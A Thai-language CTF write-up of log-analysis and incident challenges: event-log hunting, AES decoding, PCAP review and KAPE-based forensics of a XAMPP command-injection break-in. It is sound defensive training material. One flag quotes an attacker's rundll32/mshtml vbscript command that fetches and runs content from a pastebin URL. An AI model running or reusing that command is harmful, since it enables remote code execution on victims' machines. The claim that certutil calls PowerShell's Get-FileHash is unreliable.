# SECPlayground Hackloween CTF 2024  [Log Analysis & Incident write-up - R@b!T_T]
สวัสดีครับทุกท่าน พบกันอีกแล้วกับ chicken0248 คนเดิม คนไม่ดี ในวันนี้ผมจะมาแชร์ write-up ในหมวด Log analysis และ Incident จากงาน Hackloween CTF 2024 ที่จัดโดย Sec Playground ครับผม โดยในการแข่งขันนี้จัดขึ้นในวันที่ 31 ตุลาคม หรือก็คือวัน halloween นั่นเอง 



และในครั้งนี้ผมก็ได้ไปเข้าร่วมทีมกับคุณ Kyokito, bunnyz และ Sabastiaz ภายใต้ชื่อทีม R@b!T_T ซึ่งได้ที่สองในงานนี้มา ถือว่าเป็นการ Join ที่เฉพาะกิจมากแล้วก็สนุกมาก ๆ ครับ เพื่อนร่วมทีมปั่นกันสุด ๆ โดยเฉพาะตอนทำโจทย์ในหมวด Artificial Intelligence ที่ให้ทำ AI prompt injection ซึ่งก็เป็นอีกหมวดที่ ใจนึงก็คาดไว้แล้วว่าอาจจะมาแต่ไม่คิดว่ามันจะมาในงานนี้ เพราะ Sec Playground ก็พึ่งได้ลงคอร์ส OWASP LLM Top 10 ไป แล้วทีมเราไม่มีใครมีพื้นฐานด้าน AI กันมาเลย จึงเป็นหมวดที่ค่อนข้างตึงครับ กว่าจะผ่านกันมาได้ ถือว่าเป็นหมวดที่สนุกมาก ๆ อีกหมวดเลย (แข่งจบแล้วพูดได้ ตอนเล่นนี่แทบจะเอาหัวโขกโต๊ะอยู่แล้ว)

เอาหละเพื่อไม่ให้เป็นการเสียนาฬิกา เรามาเริ่มกันดีกว่า!

## Log Analysis (All 3 solved)

### Following the Leak Trail #1
An attempt was made to bypass something.

What command is used to try to bypass?

Format flag: forensic{Full Process Command Line}
***


เราได้ log มาโดยที่ไม่บอกว่าเป็น log ประเภทไหน แต่เมื่อเปิดออกมาจากพบ log ที่อยู่ในหลัก 4000 ซึ่งก็คือ Security event log นั่นเอง ซึ่งใน Security event log ที่เราได้ก็จะมีการ log event ID 4688 (process creation) ที่มี "Command Line" ฟิลด์อยู่ ซึ่งถ้าโจทย์ให้เราหา command แล้วไม่มี powershell log มาให้ หวยก็ต้องไปออกที่ `cmd.exe` แล้วก็ตาม process ID ไปเรื่อย ๆ ก็น่าจะเจอ command ที่เราต้องการ



ดังนั้นเราก็ต้องเริ่มจาก "Filter Current Log..." เพื่อเอาเฉพาะ event ID 4688 



ต่อมาก็หา process ID ของ `cmd.exe` ด้วยการใช้ "Find..." ซึ่ง process ID ที่จะนำไปสู่คำตอบในข้อนี้ก็คือ process ID 0x25d0 (9680 ในฐาน 10) ซึ่งเราก็จะเอา process ID นี้ไป search ต่อ



แล้วเราก็จะพบกับ command line นี้ในท้ายที่สุด ซึ่งเป็น command ที่ใช้ `rundll32` อะไรก็ตามที่มาจาก pastebin url ด้วย vbscript และ HTA ซึ่งนี่ก็เป็น flag ของข้อแรกนั่นเอง

```
forensic{rundll32 vbscript:"\\..\\mshtml\\..\\LoL\\..\\mshtml,RunHTMLApplication "+String(CreateObject("Wscript.Shell").Run("https://pastebin.com/raw/nhWeTtJH"),0)}
```
***
### Following the Leak Trail #2
What is the file name?

Format flag: forensic{filename}
Eg. forensic{sample.exe}
***

ข้อนี้ยังให้ log เดิมมา เราก็มาสานต่อจาก url จากข้อที่แล้ว โดยการเข้าไปที่ url เราก็จะพบ ciphertext พร้อมด้วย Key และ IV ซึ่ง algorithm แรกที่ต้องเข้ามาในหัวเลยเมื่อพูดถึง Key และ IV นั่นก็คือ AES หรือ Advanced Encryption Standard ซึ่งเป็น symmetric key cryptography algorithm ที่มีถึง [5 โหมด](https://www.highgo.ca/2019/08/08/the-difference-in-five-modes-in-the-aes-encryption-algorithm/) และยังถูกใช้เป็นมาตรฐานในระดับโลก ซึ่งโหมดของ AES ที่พบได้บ่อยในการแข่งขัน CTF จะเป็น CBC mode หรือ Cipher Block Chaining ที่จะเป็นการนำ Initialization Vector (IV) มาทำการ XOR กับ plaintext ก่อนจะนำไปเข้ารหัสด้วย Key นั่นเอง




โดย CyberChef ก็จะมี Recipe สำหรับทำ decryption นั่นก็คือ "AES Decrypt" โดยเราจะนำ ciphertext ไปใส่ในช่อง Input และนำ Key กับ IV ไปใส่ในช่องที่กำหนดดังภาพ ซึ่งก็จะได้ผลลัพธ์เป็น base64 string และหลังจาก decode base64 string ก็จะได้เป็นลิงค์ดาวน์โหลดไฟล์สำหรับข้อต่อไปแล้วก็เป็นคำตอบของข้อนี้อีกด้วย

```
forensic{packet.zip}
```
***
### Following the Leak Trail #3
There's something to verify.
What is the attacker's IP?

Format flag: forensic{IPAddress}
***

หลังจากแตกไฟล์มา จะเป็นไฟล์ขนาดใหญ่ที่มีจำนวน packet กว่า 2 แสน ซึ่งสิ่งที่น่าสนใจจาก traffic ที่ capture มานี้ เกินครึ่งจะมาจาก HTTP protocol ดังนั้นการเริ่ม focus จาก HTTP ก่อนเพื่อค้นหาสาเหตุว่าทำไมถึงมี traffic มากขนาดนี้และ traffic ส่วนใหญ่นั้นเป็น good traffic รึเปล่า



หลังจาก filter ด้วย `http` เราก็จะพบว่ามีการทำ directory discovery ด้วย dirbuster (ดูได้จาก User-Agent ที่ส่ง request ไปยัง webserver) จาก IP ของ attacker ที่เราหาอยู่นั่นเอง

```
forensic{192.168.1.116}
```

จบไปแล้วครบกับหมวดของ log analysis งั้นไปต่อกันที่หมวด Incident กันเลย! 
***
## Incident (All 7 solved)

### My legacy application was hacked#1
We have an legacy application and it got hacked. We need your help to investigate to find the root cause of this incident.

What is sha256 of evidence zip file? 

Format: forensic{SHA256}
***

หลังจากดาวน์โหลด zip ไฟล์มาเราก็สามารถคำนวณค่า hash ด้วยวิธีที่เราถนัดได้เลย และนี่คือตัวอย่างของการคำนวณค่า hash โดยใช้ living of the land binaries (LOLBin) ของ Windows อย่าง `certutil` ซึ่งเมื่อเราใช้คำสั่งนี้ใน background ก็จะมีการ run command `Get-FileHash $filename -Algorithm SHA256` บน PowerShell แล้วนำค่า Hash นั้นกลับมา return ให้กับ user ผ่านทาง terminal นั่นเอง

การ checksum มีความสำคัญมากต่อการทำ Digital Forensics ซึ่งจะเป็นการคอนเฟิร์มว่าหลักฐานที่เราได้มานั้นไม่ได้ถูกเปลี่ยนแปลงจากตอนที่ทำการเก็บหลักฐาน (acquisition) 

```
forensic{6b6ec76ffb5c8922a34e4ef6f4fe39b4e7ebca7e7efe6252dbbe7d4252fc1a1e}
```
***
### My legacy application was hacked#2
What OS of affected host? 

Format flag: forensic{Windows_Version} 
Eg. forensic{Windows_10}
***


ในไฟล์ zip ที่เราได้มานั้นจะเป็นไฟล์หลักฐานต่าง ๆ ที่ถูกเก็บด้วยการใช้ Kroll Artifact Parser And Extractor (KAPE) ที่เขียนขึ้นโดย Eric Zimmerman อดีตเจ้าหน้าที่ FBI ที่เขียน Tools ไว้หลายตัวมาก ๆ ซึ่งเป็นแหล่งขุมทรัพย์และอาวุธของเหล่า Blue Teamer ทั้งหลายที่เรารู้จักกันในชื่อของ EZ Tools (Eric Zimmerman's Tools) 



หลังจาก Eric Zimmerman ลาออกจาก FBI ก็ได้มาเข้าร่วมกับบริษัท Kroll และสร้าง KAPE ขึ้นมา โดย Eric ก็ได้เป็น Instructor ในคอร์สแสนแพงของ SANS  อย่าง FOR508: Advanced Digital Forensics, Incident Response and Threat Hunting และคอร์สที่เกี่ยวกับทางด้าน Evidence Acquisition and Digital Forensic อีกมากมาย ซึ่งหากท่านเป็นชาว Blue Teamer ก็น่าจะรู้จักเขาเป็นอย่างดี 



หลังจากนอกเรื่องมาตั้งไกล เราจะหา Version ของ Windows ที่เก็บด้วย KAPE ได้จากไหนหละ? นั่นก็ขึ้นอยู่กับว่าตอนที่เก็บหลักฐานด้วย KAPE นั้น ผู้ใช้ได้เลือก Module ไหนเอาไว้บ้าง ซึ่งก็เป็นโชคดีของเราที่ Sec Playground ได้ให้ LiveResponse module มาด้วย 




ซึ่งภายในก็จะมีไฟล์ต่าง ๆ ที่เก็บ output จากการรัน command ต่าง ๆ ในระหว่างการเก็บหลักฐาน และนั่นก็รวมถึง `systeminfo` (System Information) ด้วยนั่นเอง



เมื่อเปิดดูก็จะพบว่าหลักฐานทั้งหมดนี้ถูกเก็บมาจากเครื่อง Windows Server 2012 R2 นั่นเอง

```
forensic{Windows_Server_2012_R2}
```
***
### My legacy application was hacked#3
What is the tool that used for triage acquisition in this incident? 

Format flag: forensic{TOOL_NAME}
***
ข้อนี้เราได้เฉยไปแล้วในข้อที่แล้ว ข้อข้ามเลยแล้วกันนะครับ
```
forensic{KAPE}
```
***
### My legacy application was hacked#4
What is the specific path of vulnerable web page? 

Format flag: forensic{FULL_PATH} 
Eg. forensic{C:\Windows\system32\test}
***

ในข้อนี้เราต้องเริ่มจากการดู log ของ web server แต่เราจะหาได้จากไหนหละ? ซึ่งจากการค้นจาก ModuleResult เราก็จะพบว่ามี log ของ xampp ถูกเก็บมาด้วยนั่นเอง โดย log ที่น่าสนใจก็จะมีอยู่สองตัวก็คือ `access.log` และ `error.log` ซึ่งเราจะมาเริ่มจาก `access.log` กันก่อนเลย



เมื่อเปิดมาเราก็จะพบว่า request กว่า 80% จะมาจาก IP address นี้และจะเน้นหนักไปที่ POST request หลาย ๆ ครั้งถึง `/cli/index.php` endpoint ซึ่งก็หมายความว่าอาจจะเป็นการทำ command injection ผ่านหน้า `index.php` 

และอีกสิ่งที่เราพบจากการดู Log นี้ก็คือ timezone ของเครื่องที่จะใช้เป็น UTC -7 แต่ใน systeminfo เราพบว่าใช้เป็น (UTC-08:00) Pacific Time (US & Canada) โดยคำอธิบายในเคสนี้ก็คือเครื่องนี้บันทึก log ในระหว่าง DST (Daylight Saving Time) หรือเป็นเวลาที่จะปรับให้เร็วขึ้น 1 ชั่วโมงในช่วงฤดูร้อน เพื่อให้สามารถใช้แสงธรรมชาติจากดวงอาทิตย์ได้นานขึ้นในช่วงเย็น และลดการใช้พลังงานจากแสงไฟในตอนกลางคืน หลายประเทศ โดยเฉพาะในซีกโลกเหนือ ดังนั้นเวลาทำ DF ของระบบก็แนะนำให้แปลงเป็น UTC เพื่อความเป็นสากลและลดความสับสนเรื่อง time zone ครับ



กลับมาดู `error.log` มาบ้าง โดยเราจะเห็นว่ามีการ log error ของ command ที่เป็น bad command ไว้ โดยที่เห็นชัด ๆ ที่สุดเลยก็คือ "there is no such global user or group: hacker", `sysinfo` และ phpinfo



เรารู้อยู่แล้วว่ามันเป็น website ที่ host ด้วย Xampp ซึ่งก็หมายความว่าไฟล์ทุกอย่างที่จะแสดงผลผ่าน website ก็จะถูกเก็บไว้ที่ htdocs โฟลเดอร์ ซึ่งหมายความว่าเราจะได้ path มาเป็น `C:\xampp\htdocs\cli\index.php` 



โดยผมได้ใช้ [MFTECmd](https://github.com/EricZimmerman/MFTECmd) จาก EZ tool เพื่อทำการ parse $MFT (Master File Table) ที่จะเป็นไฟล์ที่ Windows ใช้ในการ track ไฟล์และโฟลเดอร์ต่าง ๆ บน file system ที่เป็น NTFS (New Technology File System) โดยจะเก็บตั้งแต่ขนาดของไฟล์, creation date, modification date, permission, path และอื่น ๆ อีกมากมาย แต่จะไม่ได้เก็บ content ของไฟล์นั้นไว้ 



ซึ่งหลังจาก parse content ของ 	$MFT ลงใน csv แล้วเปิดด้วย Timeline Explorer ก็จะพบไฟล์นี้อยู่ใน path เดียวกับที่เราคาดไว้ 


แต่! การจะ submit ข้อนี้ให้ได้คะแนนนั้น เราจำเป็นจะต้อง "DOUBLE BACK SLASH" ตรง `C:\xampp` ให้เป็น `C:\\xampp` นั่นเอง

```
forensic{C:\\xampp\htdocs\cli\index.php}
```
***
### My legacy application was hacked#5
What is IP of threat actor? 

Format flag: forensic{IP_ADDRESS} 
Eg. forensic{10.10.10.10}
***


เรามีอยู่ IP เดียวที่ทำการโจมตีมาที่ endpoint นี้ครับ

```
forensic{192.168.1.184}
```
***
### My legacy application was hacked#6
What user was added by the threat actor? 

Format: forensic{username} 
Eg. forensic{Alice}
***


หลังจากค้นว่าเรามีอะไรบ้าง ผมก็ไปเจอว่าเรามี EventLogs อยู่ โดยในไฟล์ log ที่เราได้มานั้นจะไม่มี sysmon ดังนั้น ผมก็เลยไปหา log ที่สามารถเก็บ command ตัวอื่นได้นั่นก็คือ PowerShell log แต่กลับพบว่ามีแต่ command ของ KAPE ที่ถูกรันไว้ ดังนั้นมันก็เหลือ Security log เป็น log สุดท้ายแล้วหละที่เราจะต้องไปงมหา 



เมื่อเปิดดูเบื้องต้นก็จะพบว่าเป็น Security log แบบ default ที่ไม่ได้มีการใส่ผงชูรสเพิ่มเพื่อให้เก็บ log process creation ที่มี command line แบบในหมวด log analysis

เมื่อพบอย่างนั้นผมก็เลยใช้ EvtxECmd จาก EZ tools ในการ parse log ไปเป็น csv แล้วเปิดด้วย timeline explorer เพื่อความสะดวกในการ search 



ผมเริ่มจากการ search ด้วยคำว่า "create user" (จริง ๆ ควรจะใช้คำว่า new account แต่ช่างปะไร ได้เหมือนกัน) ก็จะพบว่ามี user ที่ชื่อ `systemuser` อยู่ในระบบ



อีกจุดที่จะเป็นจุดสังเกตให้เราได้อีกจุดก็คือนอกจาก Administrator แล้วก็มี systemuser นี่แหละที่น่าสงสัยที่สุดแล้วบนเครื่องนี้



ต่อมาเราก็เอาชื่อ user มาทำการ search ก็จะพบว่าเป็น user ที่ถูกสร้างขึ้นหลังจาก website ที่โหมด้วย POST request แล้วก็ถูกเพิ่มให้อยู่ใน group ของ Admin และก็ถูก login ด้วย IP address ของ attacker ในเวลา 06:13 ซึ่งก็เป็นคำตอบของข้อถัดไปครับ เนื่องจากการทำ command injection ผ่าน website อาจจะยังไม่ถือว่าเป็นการเข้ามาคุมได้ แต่การ login เข้ามาจะเป็นการการันตีว่า "ฉันเข้ามาแล้ว!" (I'M IN) 



```
forensic{systemuser}
```
***
### My legacy application was hacked#7
When threat actor fully access and control the system?

Format: forensic{DATETIME} 
Eg. forensic{2022-01-10 11:15}
```
forensic{2024-05-09 06:13}
```



จบกันไปแล้วครับกับ write-up ของผมเนื่องจากตั้งใจจะมาเล่นเฉพาะ Incident, Network (Sabaztiaz แย่งเล่นไปแล้ว) และ Log analysis ผมก็เลยจะเขียน write-up ไว้แค่นี้แล้วให้สมาชิกในทีมคนอื่น ๆ เขียนในหมวดที่ตัวเองทำแยกกันครับ

ขอขอบคุณทีมงาน Sec Playground และผู้ที่เกี่ยวข้องทุกท่านที่จัดงานสนุก ๆ และงานปั่น ๆ แบบนี้ให้พวกเราได้เล่นกัน ผมขอลาไปก่อน สวีดัสครับ
***
